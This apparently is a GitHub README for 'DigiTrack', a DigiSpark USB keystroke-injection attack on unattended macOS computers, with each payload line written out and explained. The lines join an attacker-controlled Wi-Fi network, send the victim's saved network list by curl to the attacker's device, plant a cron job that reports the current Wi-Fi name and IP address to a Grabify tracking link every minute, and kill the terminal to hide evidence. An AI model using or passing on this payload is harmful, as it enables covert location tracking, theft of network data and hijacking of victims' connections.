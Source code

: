 # DigiTrack

In 30 seconds, this attack can learn which networks a MacOS computer has connected to before, and plant a script that tracks the current IP address and Wi-Fi network every 60 seconds.

This is a $5 attack that does a couple things:

1) Inserts a Wi-Fi backdoor onto a victim computer, allowing you to connect to the computer at any time.
2) Steals a list of every network the victim has ever connected to (for tracking, classifying, and hijacking data connection)
3) Inserts a tracking job that send the IP address and currently connected network to a Grabify link every 60 seconds.


Attack goes: A victim leaves a MacOS computer unattended for 30 seconds. The attacker inserts a DigiSpark board loaded with an attack payload. The payload looks like this (with delays and single key strokes removed):


 ## DigiKeyboard.print("networksetup -setairportnetwork en0 'sneakernet' 00000000"); 
  - We add the network "Sneakernet" to our trusted network list and connect to it.
  
##  DigiKeyboard.print("curl -m 10 --silent --output /dev/null -X POST -H \"Content-Type: text/plain\" --data \"$(networksetup -listpreferredwirelessnetworks en0)\" 192.168.4.1 &");
  - After connecting, we send a CURL request listing every single network the MacOS computer has connected to in the past to the esp8266 creating the "Sneakernet" network. The & puts the process in the background in case it takes too long, and the -m sets a timer of 10 seconds to prevent it taking too long. Now we know which Wi-Fi networks the victim has joined, and which networks will force the computer to connect without asking.
  
##  DigiKeyboard.print("export VISUAL=nano; crontab -e");
  - We create a job that will execute every 60 seconds
  
 ## DigiKeyboard.print("* * * * * curl --silent --output /dev/null --referer \"$(/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -I | awk '/ SSID/ {print substr($0, index($0, $2))}')\"  https://grabi/YOURLINK");
 - We suppress the output of CURL, and grab the network name of the currently connected Wi-Fi network. We sent this along with a CURL request to a tracking URL, delivering the target's IP address and currently connected Wi-Fi network every 60 seconds.
  
##  DigiKeyboard.print("wait && kill -9 $(ps -p $PPID -o ppid=)");
  - Finally, we wait for all background processes to finish, and kill the shit out of the terminal window to hide the evidence.

Total run time is about 30 seconds, not including the few seconds the Digisparks waits for a sketch to upload.

Notes: Grabify may go into "I'm under attack" mode and not allow checkin. Look for this line:
div class="cf-browser-verification cf-im-under-attack"
  
 If you see it, then the IP address is being blocked by cloudflare.
